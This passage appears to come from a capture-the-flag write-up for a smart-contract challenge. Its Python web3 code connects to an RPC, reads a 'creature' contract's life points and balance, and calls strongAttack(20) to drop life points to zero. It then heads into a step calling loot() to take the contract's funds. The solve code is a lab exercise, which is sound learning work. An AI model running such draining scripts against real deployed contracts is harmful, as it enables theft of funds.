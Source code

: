 ### Step 1: Connect and Validate

The script first connects to the RPC and verifies the contract exists:

```python
w3 = Web3(Web3.HTTPProvider(RPC_URL))

if not w3.is_connected():
    print("Failed to connect to RPC!")
    return

# Check if contract exists (important for expired instances)
code = w3.eth.get_code(TARGET_ADDRESS)
if code == b'' or code == '0x':
    print("Contract not found - instance might have expired")
    return
```

### Step 2: Check Initial State

Read the creature's current state:

```python
account = w3.eth.account.from_key(PRIVATE_KEY)
creature = w3.eth.contract(address=TARGET_ADDRESS, abi=CREATURE_ABI)

life_points = creature.functions.lifePoints().call()  # Returns: 20
balance = w3.eth.get_balance(TARGET_ADDRESS)  # Returns: 10 wei
```

### Step 3: Attack the Creature

Call `strongAttack(20)` to reduce lifePoints from 20 to 0:

```python
attack_tx = creature.functions.strongAttack(20).build_transaction({
    'from': account.address,
    'nonce': w3.eth.get_transaction_count(account.address),
    'gas': 100000,
    'gasPrice': w3.eth.gas_price
})

signed_attack = account.sign_transaction(attack_tx)
attack_hash = w3.eth.send_raw_transaction(signed_attack.raw_transaction)
attack_receipt = w3.eth.wait_for_transaction_receipt(attack_hash)

if attack_receipt['status'] != 1:
    print("Attack failed!")
    return
```

### Step 4: Verify and Loot

After the attack, verify HP is 0 then call `loot()`:
